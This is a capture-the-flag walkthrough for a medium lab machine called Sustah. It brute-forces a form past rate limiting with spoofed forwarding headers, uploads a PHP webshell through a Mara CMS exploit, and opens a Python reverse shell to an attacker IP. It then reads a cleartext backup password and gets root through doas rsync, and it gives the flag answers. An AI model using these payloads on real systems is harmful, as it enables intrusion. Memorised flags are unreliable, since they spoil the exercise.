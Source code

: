 # Sustah - Medium

```shell
sudo vim /etc/hosts
#add sustah.thm

nmap -T4 -p- -A -Pn -v sustah.thm

feroxbuster -u http://sustah.thm -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500

feroxbuster -u http://sustah.thm:8085 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500

#using ffuf instead of burp suite

#generate wordlist
seq 10000 99999 > numbers.txt

ffuf -w numbers.txt -X POST -d "number=FUZZ" -u http://sustah.thm:8085/home -H "Content-Type: application/x-www-form-urlencoded" -H "X-Originating-IP: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1" -H "X-Remote-IP: 127.0.0.1" -H "X-Remote-Addr: 127.0.0.1" -H "X-Client-IP: 127.0.0.1" -H "X-Host: 127.0.0.1" -H "X-Forwared-Host: 127.0.0.1"
#this gives false positives with 157 words

ffuf -w numbers.txt -X POST -d "number=FUZZ" -u http://sustah.thm:8085/home -H "Content-Type: application/x-www-form-urlencoded" -H "X-Originating-IP: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1" -H "X-Remote-IP: 127.0.0.1" -H "X-Remote-Addr: 127.0.0.1" -H "X-Client-IP: 127.0.0.1" -H "X-Host: 127.0.0.1" -H "X-Forwared-Host: 127.0.0.1" -fw 157
#this gives us the correct number

searchsploit mara cms
#gives us RCE exploit

searchsploit -x php/webapps/48780.txt
#follow the exploit

echo "<?php system($_GET["cmd"]); ?>" > simple-webshell.php
#upload the webshell to required path

#setup listener
nc -nvlp 4444
#execute reverse-shell command in webshell

#we get reverse-shell
whoami
#www-data

python -c 'import pty;pty.spawn("/bin/bash")'

cd /tmp

#get linpeas.sh from attacker machine server
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#search for backups

ls -la /var

ls -la /var/backups

cat /var/backups/.bak.passwd
#this contains password for user 'kiran'

su kiran
#use cleartext password
#this works

cd

cat user.txt

#search for sudo alternatives

which doas

ls -la /usr/local/bin/doas
#this has SUID bit set

locate doas.conf

cat /usr/local/etc/doas.conf
#we can run rsync as root

#exploit from GTFObins
doas -u root rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
#this gives root shell
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.2p2 (Ubuntu)
  * 80 - http - Apache httpd 2.4.18
  * 8085 - http - Gunicorn 20.0.4

* The webpage on port 80 contains a quote and an image.

* Using ```feroxbuster```, we can start enumerating web directories.

* We can also check the webpage on port 8085 - this contains a game of 'Spinner Wheel'

* While we interact with this game, we can scan the web directories on this port as well.

* We do not get any hidden directories, so we have to try other ways.

* Since the question asks for a number that reveals a path, and it mentions a 5-digit number, we can attempt brute-forcing.

* We can use Burp Suite Proxy to intercept & capture the request which includes the 'number' parameter.

* Then, we can send this request to Intruder, and brute-force using Sniper mode, such that our payload is in the range 10000-99999 (all 5-digit numbers).

* Now, after a few requests, we get error in Responses - it includes the headers of type 'X-RateLimit-*' and 'Retry-After'.

* To solve this, we have to modify our intercepted request and include a few headers to [bypass X-RateLimit headers](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass); these headers include:

```markdown
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1
```

* Now, Burp Suite takes a lot of time for this, so we can use ```ffuf``` as an alternate.

* To craft the command required, we can get headers from the POST request, and include the additional headers to bypass ```X-RateLimit```.

* Initially running ```ffuf``` gives us false positives with 157 words; on adding the ```-fw``` flag to ignore these false positives - we get the correct number response.

* When we input the correct number in the Spinner webpage, we get the path "/YouGotTh3P@th" as a result.

* Checking the path on port 8085 gives the ```Not Found``` error, but checking this path on port 80 leads us to a page for ```Mara CMS```.

* We can get the version by checking the 'About' page - it shows 7.x as version.

* Using ```searchsploit```, we can search for exploits related to ```mara```, and these exploits show version 7.5 for the CMS.

* Now, in the 'Test Page' section, the creds "admin:changeme" are given, which can be used to log into the CMS dashboard as Admin.

* Now, following the exploit, we can navigate to the ```Mara CMS``` file upload path by going to /YouGotTh3P@th/codebase/dir.php?type=filenew (in the CMS path).

* Here, we can upload our PHP webshell, and it shows that the webshell has been uploaded to <http://sustah.thm/YouGotTh3P@th/img/>

* So, we can check the webshell by visiting this link:

```http://sustah.thm/YouGotTh3P@th/img/simple-webshell.php?cmd=whoami```

* This works, and we get RCE as ```www-data```.

* We can now setup a listener, and get reverse shell by executing the reverse-shell one-liner in webshell:

```export RHOST="10.14.31.212";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'```

* In our reverse-shell, we can begin enumerating for privesc using ```linpeas```.

* ```linpeas``` does not give anything, and the clue given is to search for backups.

* Checking the ```/var/backups``` directory, we have a '.bak.passwd' file which seems to be readable.

* Printing this file shows that there is a password in cleartext for user 'kiran'.

* Attempting to use this password by switching to user 'kiran' works and we can now read the user flag.

* Now, ```linpeas``` is unable to find anything in this case, so we have to manually search.

* The clue given to us is 'we always do not need sudo' - this means we can check for alternatives of 'sudo'.

* One alternative of 'sudo' is 'doas' - and we have it on victim machine.

* Now, ```doas``` has SUID bit set; furthermore, the ```doas.conf``` file shows that we can ```rsync``` as root without password.

* We can search for ```rysnc``` exploits on GTFObins - we can run it using ```doas``` and get root shell.

```markdown
1. What is the number that revealed the path? - 10921

2. Name the path. - /YouGotTh3P@th/

3. What is the name of the CMS? - Mara

4. What version of the CMS is running? - 7.5

5. What is the user flag? - 6b18f161b4de63b5f72577c737b7ebc8

6. What is the root flag? - afbb1696a893f35984163021d03f6095
```
